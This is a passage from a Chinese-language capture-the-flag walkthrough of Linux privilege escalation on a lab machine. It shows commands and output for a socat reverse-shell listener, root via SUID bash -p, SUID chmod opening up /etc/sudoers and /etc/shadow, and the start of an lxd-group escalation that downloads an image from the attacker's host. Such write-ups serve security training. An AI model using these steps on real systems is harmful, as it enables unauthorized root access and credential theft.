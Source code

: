 ```
返回root的反弹shell

```
┌──(root💀kali)-[~]
└─#  socat file:`tty`,raw,echo=0 tcp-listen:12345
/bin/sh: 0: can't access tty; job control turned off
#  id
uid=0(root) gid=0(root) groups=0(root)
#  whoami
root
#  

```

#  提权方法4 SUID:bash

```
-bash-4.4$ /bin/bash -p
bash-4.4#  id
uid=1000(elyana) gid=1000(elyana) euid=0(root) egid=0(root) groups=0(root),4(adm),27(sudo),108(lxd),1000(elyana)
bash-4.4#  whoami
root
bash-4.4#  

```

#  提权方法5 SUID:chmod
这个命令的思路是通过chmod修改一些敏感文件的权限，使得这些文件可读可写，从而提升自己的权限


```
-bash-4.4$ ls -alh /etc/sudoers
-r--r----- 1 root root 772 Oct  6  2020 /etc/sudoers
-bash-4.4$ /bin/chmod 777 /etc/sudoers
-bash-4.4$ ls -alh /etc/sudoers
-rwxrwxrwx 1 root root 772 Oct  6  2020 /etc/sudoers
-bash-4.4$ /bin/chmod 777 /etc/shadow
-bash-4.4$ ls -alh /etc/shadow
-rwxrwxrwx 1 root shadow 981 Oct  6  2020 /etc/shadow

```

#  提权方法6 lxd组用户提权
这个方法的操作流程在之前我的[这台靶机](https://www.jianshu.com/p/d23ae6bba086)里有详细记录

```
bash-4.4$ wget http://10.13.21.169:8000/alpine-v3.8-i686-20210926_2341.tar.gz
--2021-09-29 09:42:52--  http://10.13.21.169:8000/alpine-v3.8-i686-20210926_2341.tar.gz
Connecting to 10.13.21.169:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2684439 (2.6M) [application/gzip]
Saving to: ‘alpine-v3.8-i686-20210926_2341.tar.gz’
